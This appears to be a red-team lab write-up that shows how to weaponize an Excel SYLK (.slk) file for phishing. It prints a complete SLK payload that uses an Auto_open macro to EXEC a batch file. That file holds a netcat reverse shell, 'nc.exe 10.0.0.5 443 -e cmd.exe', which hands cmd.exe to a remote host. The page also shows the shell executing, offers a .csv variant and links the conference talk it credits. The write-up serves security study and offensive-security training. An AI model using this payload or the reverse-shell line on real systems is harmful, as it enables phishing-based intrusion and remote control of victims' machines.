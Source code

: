 # Phishing: .SLK Excel

This lab is based on findings by [@StanHacked](https://twitter.com/StanHacked)

## Weaponization

Create an new text file, put the the below code and save it as .slk file:

{% code-tabs %}
{% code-tabs-item title="demo.slk" %}
```text
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:\shell.cmd")
C;X1;Y102;K0;EHALT()
E
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/slk-text.png)

Note that the shell.cmd refers to a simple nc reverse shell batch file:

{% code-tabs %}
{% code-tabs-item title="c:\\shell.cmd" %}
```text
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Execution

Once the macro warning is dismissed, the reverse shell pops as expected:

![](../../.gitbook/assets/slk-shell.gif)

Since the file is actually a plain text file, detecting/triaging malicious intents are made easier.

## Bonus

Note that the payload file could be saved as a .csv - note the additional warning though:

![](../../.gitbook/assets/slk-csv.png)

{% embed data="{\"url\":\"https://www.youtube.com/watch?v=xY2DIRfqNvA\",\"type\":\"video\",\"title\":\"Track 3 18 The MS Office Magic Show Stan Hegt Pieter Ceelen\",\"description\":\"These are the videos from Derbycon 2018:\\nhttp://www.irongeek.com/i.php?page=videos/derbycon8/mainlist\\n\\nPatreon:\\nhttps://www.patreon.com/irongeek\",\"icon\":{\"type\":\"icon\",\"url\":\"https://www.youtube.com/yts/img/favicon\_144-vfliLAfaB.png\",\"width\":144,\"height\":144,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://i.ytimg.com/vi/xY2DIRfqNvA/maxresdefault.jpg\",\"width\":1280,\"height\":720,\"aspectRatio\":0.5625},\"embed\":{\"type\":\"player\",\"url\":\"https://www.youtube.com/embed/xY2DIRfqNvA?rel=0&showinfo=0\",\"html\":\"<div style=\\\"left: 0; width: 100%; height: 0; position: relative; padding-bottom: 56.2493%;\\\"><iframe src=\\\"https://www.youtube.com/embed/xY2DIRfqNvA?rel=0&amp;showinfo=0\\\" style=\\\"border: 0; top: 0; left: 0; width: 100%; height: 100%; position: absolute;\\\" allowfullscreen scrolling=\\\"no\\\"></iframe></div>\",\"aspectRatio\":1.7778}}" %}

[http://www.irongeek.com/i.php?page=videos/derbycon8/track-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen](http://www.irongeek.com/i.php?page=videos/derbycon8/track-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen)

{% embed data="{\"url\":\"https://twitter.com/StanHacked/status/1049047727403937795\",\"type\":\"rich\",\"title\":\"Stan Hegt on Twitter\",\"description\":\"Pop calc.exe via Excel file of less than 100 bytes in size. Circumventing protected view! Put the following lines in a .slk file and accept the Excel macro warning. More magic in the @derbycon presentation of @ptrpieter and myself. Recording via @irongeek\_adc will be online soon! pic.twitter.com/ibsmqrj5S9— Stan Hegt \(@StanHacked\) October 7, 2018\\n\\n\",\"icon\":{\"type\":\"icon\",\"url\":\"https://abs.twimg.com/icons/apple-touch-icon-192x192.png\",\"width\":192,\"height\":192,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://pbs.twimg.com/media/Do717YQWwAAeXAQ.jpg:large\",\"width\":1536,\"height\":802,\"aspectRatio\":0.5221354166666666},\"embed\":{\"type\":\"app\",\"html\":\"<blockquote class=\\\"twitter-tweet\\\" data-dnt=\\\"true\\\" align=\\\"center\\\"><p lang=\\\"en\\\" dir=\\\"ltr\\\">Pop calc.exe via Excel file of less than 100 bytes in size. Circumventing protected view! Put the following lines in a .slk file and accept the Excel macro warning. More magic in the <a href=\\\"https://twitter.com/DerbyCon?ref\_src=twsrc%5Etfw\\\">@derbycon</a> presentation of <a href=\\\"https://twitter.com/ptrpieter?ref\_src=twsrc%5Etfw\\\">@ptrpieter</a> and myself. Recording via <a href=\\\"https://twitter.com/irongeek\_adc?ref\_src=twsrc%5Etfw\\\">@irongeek\_adc</a> will be online soon! <a href=\\\"https://t.co/ibsmqrj5S9\\\">pic.twitter.com/ibsmqrj5S9</a></p>&mdash; Stan Hegt \(@StanHacked\) <a href=\\\"https://twitter.com/StanHacked/status/1049047727403937795?ref\_src=twsrc%5Etfw\\\">October 7, 2018</a></blockquote>\\n<script async src=\\\"https://platform.twitter.com/widgets.js\\\" charset=\\\"utf-8\\\"></script>\\n\",\"maxWidth\":550,\"aspectRatio\":null}}" %}



